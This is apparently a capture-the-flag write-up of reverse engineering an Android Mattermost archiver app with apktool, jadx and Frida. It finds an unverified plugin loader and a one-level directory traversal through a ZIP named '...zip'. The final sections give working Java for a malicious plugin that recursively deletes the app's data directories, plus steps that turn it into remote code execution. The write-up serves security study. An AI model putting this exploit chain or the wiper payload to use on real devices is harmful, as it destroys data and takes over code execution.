





# Task 7 - Finale - (Vulnerability Research, Exploitation)
### Date started: November 26, 2025
### Date completed: December 22, 2025
## Provided Materials
- Custom app (mmarchiver.apk)
- Licenses (licenses.txt)
## Objective
Submit a file to be posted to the Mattermost channel that will be processed by the app and exploits the device.
## Analysis
### Application Environment Setup
To analyze and interact with the provided application (`mmarchiver.apk`), a modern Android environment was required. I used Android Studio to create a new Android Virtual Device (AVD) running the latest available version. Once the emulator booted up, the APK was installed by dragging it directly into the emulator window.

Upon installation, notifications needed to first be enabled via system settings. The app is appropriately titled `Mattermost Archiver` and uses the same icon as the official Mattermost client (as shown in the bottom right of the screenshot below).


### Application Functionality Overview
After launching the `Mattermost Archiver` app, the user is prompted to configure connection details for a Mattermost server. Based on runtime behavior and observed output, the app functions as an automated Mattermost archiver client.



> Note: The IP address `10.0.2.2` is used by Android Studio's AVDs to communicate with the host machine. In this case, it points to the Mattermost instance configured during Task 6.

After authentication via Single Sign-On (SSO), the application performs the following actions:
- Enumerates all files accessible within the configured Mattermost team
- Downloads files regardless of extension or content type
- Archives the downloaded files to local storage under `Android/data/com.badguy.mmarchiver/files/`
- Notifies the user when files are successfully archived

The screenshots shown below demonstrate the end-to-end workflow:
1. Files uploaded to the Mattermost instance



2.  User initiates the archiving process



3. Archived files appear in local device storage



### Security-Relevant Design Observations
Several characteristics of the application immediately stood out from a security perspective:
- **Unrestricted file ingestion**: All files accessible via the Mattermost team are processed without filtering or validation.
- **Implicit trust in file contents**: Files are treated as safe solely based on their ability in Mattermost, regardless of origin or structure.
- **Automated processing pipeline**: Once started, the application downloads and processes files without additional user confirmation.
These properties establish a critical trust boundary: any file uploaded to the Mattermost team may be parsed and processed automatically. This creates a clear opportunity for malicious file-based exploitation.
### Static Analysis - Decompiling Mattermost Archiver
Because the application was distributed only as a compiled Android package (`.apk`) with no available source code, static analysis required reverse engineering the application’s bytecode into a human-readable language.

Android applications written in Java are compiled into **Dalvik bytecode**, which runs on the Android Runtime. While optimized for execution, this format is not directly suitable for manual review. To analyze the internal logic, I decompiled the application back into Java source code using a multi-stage toolchain on **Windows 11**.

I began by using [apktool](https://apktool.org/), a widely used Android reverse engineering utility that extracts application resources and disassembles Dalvik bytecode into **Smali**, Android’s low-level assembly-like representation. This step allowed me to fully unpack the APK.
```powershell
java -jar Apktool_2.12.1.jar d -f -o ..\mmarchiver\ ..\mmarchiver.apk
```

I then rebuilt the project into an unsigned APK:
```powershell
java -jar Apktool_2.12.1.jar b -f -o ..\mmarchiver-unsigned.apk ..\mmarchiver\
```
Although the rebuilt APK was not intended for execution, it provided a clean intermediary component for further bytecode conversion.

The tool [dex2jar](https://github.com/pxb1988/dex2jar) converted the application’s Dalvik bytecode into standard Java bytecode packaged as a JAR file. This step enabled compatibility with traditional Java decompilers.
```powershell
d2j-dex2jar.bat -o ..\mmarchiver.jar ..\mmarchiver-unsigned.apk
```

With the JAR archive available, I performed Java-level decompilation using two tools:
- [jadx](https://github.com/skylot/jadx), a command-line decompiler that produces readable Java source code
	```powershell
	jadx.bat -d .\mmarchiver\src .\mmarchiver.jar
	```
- [Bytecode Viewer](https://github.com/Konloch/bytecode-viewer), a GUI-based decompiler used as a secondary reference when jadx struggled with specific classes

Once decompiled, the source code could be inspected in Android Studio.
### Logging Behavior
One notable observation from both static analysis and runtime behavior was the application’s extensive use of Android’s native `Log` utility. The app logs detailed information about file downloads, file paths, archive creation, exceptions during processing, and more.


### Dynamic Analysis with Frida
Rather than performing further static analysis, I opted to observe these logs directly during execution. To capture these runtime log messages, I used [Frida](https://github.com/frida/frida), a toolkit that allows method-level hooking in running Android applications. Because Frida requires elevated privileges on Android, I first rooted the Android Virtual Device using [rootAVD](https://gitlab.com/newbit/rootAVD), then installed the Frida server on the emulator. With Frida attached to the running process, I intercepted calls to Android's `Log` methods to capture debug output in real time.
```powershell
frida -U -n "Mattermost Archiver" -l .\display_logs.js
```
The script hooks all major log levels (v, d, i, w, e) and prints the log level, tag, message, and associated exceptions (if present).
```javascript
Java.perform(function() {
    const Log = Java.use("android.util.Log");

    // Helper to log and forward the call
    function hookLogMethod(methodName) {
        // Most Log methods have (String tag, String msg) or (String tag, String msg, Throwable tr)
        const overloads = Log[methodName].overloads;

        overloads.forEach(function(overload) {
            overload.implementation = function() {
                const tag = arguments[0];
                const msg = arguments[1];
                
                console.log(`[${methodName.toUpperCase()}] [${tag}] ${msg}`);
                
                // If there's a third argument (an exception/throwable), log it too
                if (arguments.length === 3) {
                    console.log(`    Exception: ${arguments[2]}`);
                }

                // Call the original method so the log still appears in Logcat
                return overload.apply(this, arguments);
            };
        });
    }

    // Hook common types
    hookLogMethod("v"); // Verbose
    hookLogMethod("d"); // Debug
    hookLogMethod("i"); // Info
    hookLogMethod("w"); // Warn
    hookLogMethod("e"); // Error

    console.log("--- LOG INTERCEPTOR ACTIVE ---");
});
```

### Observed Runtime Behavior
With Frida attached, application behavior became immediately transparent. For example, when uploading a simple PNG file, the logs clearly showed:
- Server URL storage
- Authentication state
- File download path
- Archive creation
- Successful completion
```
     ____
    / _  |   Frida 17.5.2 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Attaching...
--- LOG INTERCEPTOR ACTIVE ---
[Android Emulator 5554::Mattermost Archiver ]-> [D] [PreferencesRepository] saving server_url http://10.0.2.2:8065
[D] [PreferencesRepository] saving interval 30
[D] [MainScreenViewModel] notifications enabled: true
[D] [MainScreenViewModel] token is set
[D] [MainScreenViewModel] status is ArchiverStatus(running=false, error=NONE)
[...]
[D] [WM-WorkerWrapper] Starting work for com.badguy.mmarchiver.worker.FileDownloadWorker
[D] [FileDownloadWorker] starting
[D] [FileDownloadWorker] downloading file id=95zmcskk5tyjxkn1g89b9k7f8y name=pic_of_my_cat.png
[D] [FileDownloadWorker] file written to /data/user/0/com.badguy.mmarchiver/cache/download/pic_of_my_cat.png
[D] [d] [DefaultDispatcher-worker-5] getting format for png
[D] [b] [DefaultDispatcher-worker-5] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/pic_of_my_cat.png-1768348075117.tar.xz
[D] [b] [DefaultDispatcher-worker-5] adding entry b[pic_of_my_cat] to archive file
[I] [FileDownloadWorker] archived file pic_of_my_cat.png successfully
[...]
```
### File Handling Behavior
Initial testing focused on how the application handled unsupported or unrecognized file formats (e.g., `tar` or `gz`). When encountering an unknown file type, the application attempts to dynamically load a format handler plugin from a designated directory. If the plugin is missing, it attempts to download it from a hardcoded remote URL (`dl.badguy.local`).

Even when plugin download failed, the file was still archived:
```
[...]
[D] [FileDownloadWorker] downloading file id=x95a53et6iff5rpgzguxg8eujy name=new.tar
[...]
[D] [d] [DefaultDispatcher-worker-4] getting format for tar
[D] [d] [DefaultDispatcher-worker-4] attempting download for format tar
[E] [d] [DefaultDispatcher-worker-4] exception during format download: java.net.UnknownHostException: Unable to resolve host "dl.badguy.local": No address associated with hostname
[D] [b] [DefaultDispatcher-worker-4] creating archive at /storage/emulated/0/Android/data/com.badguy.mmarchiver/files/new.tar-1768348678795.tar.xz
[D] [b] [DefaultDispatcher-worker-4] adding entry b[new] to archive file
[I] [FileDownloadWorker] archived file new.tar successfully
[...]
```

ZIP files followed a completely different execution path. Rather than being treated as a single file, they were extracted to a temporary directory `com.badguy.mmarchiver/cache/zippier/extract/[zip-name]/`. The contents were then processed entry-by-entry and independently evaluated for format handling:
```
[...]
[D] [d] [DefaultDispatcher-worker-1] getting format for zip
[D] [b] [DefaultDispatcher-worker-1] found format for zip
[D] [a] [DefaultDispatcher-worker-1] processing zip archive /data/user/0/com.badguy.mmarchiver/cache/download/my_three_cats.zip
[D] [a] [DefaultDispatcher-worker-1] processing zip entry Mary.png
[D] [d] [DefaultDispatcher-worker-1] getting format for png
[D] [a] [DefaultDispatcher-worker-1] processing zip entry my_cats_bios.txt
[D] [d] [DefaultDispatcher-worker-1] getting format for txt
[D] [a] [DefaultDispatcher-worker-1] processing zip entry Oscar.png
[D] [d] [DefaultDispatcher-worker-1] getting format for png
[D] [a] [DefaultDispatcher-worker-1] processing zip entry Wyatt.png
[D] [d] [DefaultDispatcher-worker-1] getting format for png
[...]
```

This design introduced a second opportunity for format resolution, plugin invocation, and code execution—now occurring after extraction rather than at the archive boundary.
### Reverse Engineering the Plugin Loader
With this thought in mind, the next challenge was understanding how plugins were loaded and executed. When the app initially creates the format download directory, it logs the file path:
`com.badguy.mmarchiver/cache/zippier/formats`. To understand what the app does with the `formats` directory, the decompiled Java source needed to be reviewed. The logic responsible for loading plugins was not held in the app's main package `(com.badguy.mmarchiver)`, so I searched for the string `getting format for` in the source code. The one result resides in an obfuscated function which retrieves the format handler corresponding to the file extension. 
> Note: Some of the variables have been cleaned up in this snippet to improve readability. The original code was heavily obfuscated.
```java
[...]
logger.debug("getting format for ".concat(file_extension));  
LinkedHashMap linkedHashMap = dVar.f4241e;  
if (linkedHashMap.containsKey(file_extension)) { 
	// If the format handler was already loaded, use that one
    zipFormat = (ZipFormat) linkedHashMap.get(file_extension);  
} else {  
    ArrayList arrayList = dVar.f4242f;  
    String file_extension2 = file_extension.toLowerCase(locale);  
    kotlin.jvm.internal.r.d(file_extension2, "toLowerCase(...)");  
    if (arrayList.contains(file_extension2)) {  
        // Otherwise, check if the format download directory has the correct handler
        File format_handler = new File(formats_directory, "net.axolotl.zippier" + "." + "ZipFormat" + "_" + file_extension + ".jar");
        if (file.exists()) {
	        // Load the handler if it exists
            doFormatLoad(dVar, format_handler);
        } else {  
            try {  
                Q3.e eVar = dVar.f4244h;  
                if (eVar != null) {
	                // If no format handler is present, download it
                    logger.debug("attempting download for format".concat(file_extension));
[...]
```

At a high level, the above snippet checks if a handler for `file_extension` is already loaded. If not, then the code checks whether a plugin JAR exists in the `formats` directory. The JAR name follows the naming schema `net.axolotl.zippier.ZipFormat_[file_extension].jar`. If present, the JAR is dynamically loaded using a class loader. If absent, the code attempts to download the plugin from the URL `dl.badguy.local`.

The plugin-loading logic does not perform any integrity, signature, or validation checks on the JAR file or its code beforehand, introducing a critical vulnerability. If an attacker can place a malicious plugin in the `formats` directory with their own code, normal file processing will lead to **remote code execution (RCE)**.
### Directory Traversal Analysis
Directory traversal vulnerabilities are a well-known risk in applications that extract archive files. ZIP archives can embed file paths within their entries, and if these paths are not properly normalized or validated, an attacker may write files outside the intended extraction directory. This can enable arbitrary file write primitives, which are particularly dangerous when combined with dynamic code loading or plugin mechanisms.

Because `Mattermost Archiver` automatically extracts and processes ZIP files without user interaction, ZIP handling represented a high-value attack surface for testing traversal behavior.
I first attempted directory traversal attacks at the ZIP entry extraction stage using a modified version of the [evilarc](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) script. Common traversal techniques were tested, including:
- Relative path traversal (`../` and `..\`)
- Absolute paths
- URL-encoded path separators

In all cases, Android’s ZIP handling APIs raised exceptions, effectively blocking traversal at extraction time. This indicated that entry-level path sanitization was correctly enforced by the underlying Android operating system. The application does not decode URL-encoded path separators either.

Although direct ZIP slip attempts failed, the application’s behavior during extraction still warranted further analysis. At this point, I reviewed the filesystem layout created during ZIP processing to determine where extracted content was written and what directories were adjacent to the extraction path. This analysis revealed a critical insight: `com.badguy.mmarchiver/cache/zippier/extract` and `com.badguy.mmarchiver/cache/zippier/formats` share the same parent directory. This meant that escaping the ZIP extraction directory by even a single directory level could allow controlled writes into the `formats` directory, which the application uses for dynamic plugin loading.

Because the extraction path is constructed using the ZIP archive’s filename, further testing shifted focus from ZIP contents to the **ZIP filename itself** as a potential traversal vector. Most malformed or traversal-oriented filenames were safely rejected. In particular, filenames containing explicit path separators such as `/` or `\\` were correctly blocked or normalized by the application. 

However, one edge case behaved differently. A ZIP file named `...zip` caused the application to resolve the extraction path one directory higher than intended, escaping the `extract` directory. While traversal was limited to a single directory level, this was sufficient to gain write access to the `formats` directory.

By crafting a ZIP file named `...zip` containing an entry such as `formats/net.axolotl.zippier.ZipFormat_tar.jar`, the application extracted a malicious format handler directly into the plugin directory.



The resulting log messages confirm that directory traversal was successful. No safeguards were in place to prevent filesystem escape at the directory level:
```
[...]
[D] [a] [DefaultDispatcher-worker-4] processing zip archive /data/user/0/com.badguy.mmarchiver/cache/download/...zip
[D] [a] [DefaultDispatcher-worker-4] processing zip entry formats/
[D] [a] [DefaultDispatcher-worker-4] processing zip entry formats/net.axolotl.zippier.ZipFormat_tar.jar
[D] [d] [DefaultDispatcher-worker-4] getting format for jar
[...]
[D] [b] [DefaultDispatcher-worker-4] deleting extraction directory /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..
[E] [FileDownloadWorker] failed to create archive file: java.io.FileNotFoundException: Cannot delete file: /data/user/0/com.badguy.mmarchiver/cache/zippier/extract/..
[I] [FileDownloadWorker] file download failed, requeueing (error=FILE_ARCHIVE_FAILED)
[...]
```
### Crafting a Malicious Plugin
With the plugin requirements understood, I implemented a minimal malicious plugin that satisfied the loader’s expectations while executing attacker-controlled code. When dynamically loaded from the formats directory, the application expects the JAR to contain a class whose name matches the plugin filename. In this case, the target class was `net.axolotl.zippier.ZipFormat_tar`.

I implemented malicious behavior within the plugin’s constructor, ensuring execution immediately upon class loading. The payload recursively deletes both the application’s internal data directory and all archived files stored on disk. The class was placed within the required `net.axolotl.zippier` package.
```java
package net.axolotl.zippier;
import java.io.File;

public class ZipFormat_tar implements ZipFormat {
    public ZipFormat_tar() {
        destroyAdversaryData();
    }

    private void destroyAdversaryData() {
		try {
			File externalDir = new File("/storage/emulated/0/Android/data/com.badguy.mmarchiver");
			deleteRecursive(externalDir);
			File internalDir = new File("/data/user/0/com.badguy.mmarchiver");
			deleteRecursive(internalDir);
		} catch (Exception e) {}
	}

    private void deleteRecursive(File fileOrDirectory) {
        if (fileOrDirectory.isDirectory()) {
            for (File child : fileOrDirectory.listFiles()) {
                deleteRecursive(child);
            }
        }
        fileOrDirectory.delete();
    }

    @Override
    public void uncompress(File src, File dest, Object callback) {
        // Leave empty to let the app continue without crashing
    }
}
```
> Note: The class implements the `ZipFormat` interface, as the dynamic loader verifies a successful cast to this type. A minimal interface declaring the `uncompress` method was required for compilation. If the cast fails, the plugin is rejected and deleted.

The plugin was compiled to Dalvik bytecode and packaged into a JAR file.

By uploading a specially named ZIP archive (`...zip`) containing
1. `formats/net.axolotl.zippier.ZipFormat_tar.jar` (the JAR must also contain valid bytecode)
2. A file with the `.tar` extension.
…the application extracted the malicious tar plugin and executed my code during archive processing. This resulted in reliable **remote code execution (RCE)** on the device.
## Results
A ZIP archive named `...zip` with the described structure was sufficient to trigger directory traversal, malicious plugin deployment, and remote code execution. This archive was submitted as the solution for Task 7.